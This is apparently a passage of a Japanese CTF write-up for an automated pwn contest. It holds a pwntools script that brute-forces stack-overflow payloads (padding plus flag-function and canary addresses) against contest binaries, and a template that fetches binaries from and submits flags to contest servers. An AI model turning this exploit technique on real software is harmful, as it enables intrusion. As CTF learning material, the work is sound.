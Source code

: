 ``` python
    p = process(['chmod', '+x', fname])
    p.close()
    asm = objdump(fname)
    secret_addr = find_secret_addr(asm)
    flag_addr = find_flag_function(asm, secret_addr)
    canary_value = find_canary_value(asm)

    log.info('secret %#x', secret_addr)
    log.info('flag %#x', flag_addr)
    log.info('canary %#x', canary_value)
    for _ in range(1000):
        s = ''
        s += 'A' * random.randint(0, 15)
        for _ in range(32):
            s += p64(random.choice([ flag_addr, canary_value ]))
        p = process(fname)
        p.sendline(s)
        t = p.recvall()
        p.close()
        if 'FLAG' in t:
            return s
    raise
```

### 40000

解けず。angrに投げたらcanaryっぽいものが出るなあ、というのを確認しただけだった。

canaryが割れてるのならflag関数の位置を総当たりしてもよかったのでは、と後から気付いた。

### 共通部分

運営から与えられた`exercise.py`というtemplateを修正したもの。
起動は`while true ; do ./a.py ; sleep 180 ; done`のようにした。

``` python
#!/usr/bin/env python2
import angr
import binascii
import md5
import base64
from pwn import * # https://pypi.python.org/pypi/pwntools
context.log_level = 'debug'

def solve(fname):
    raise NotImplementedError

def submit(flag, name='BinaryOishii'):
    p = remote('10.0.1.1', 10000)
    p.sendline(name + ' ' + flag)
    p.recvall()
    p.close()

def main():
    p = remote('10.0.1.2', 10000)

    # recv banner
    linebuf = p.recvline()
    tag, value = linebuf.split(":", 1)
    print value.strip()

    # recv ELF binary
    linebuf = p.recvline()
    tag, value = linebuf.split(":", 1)
```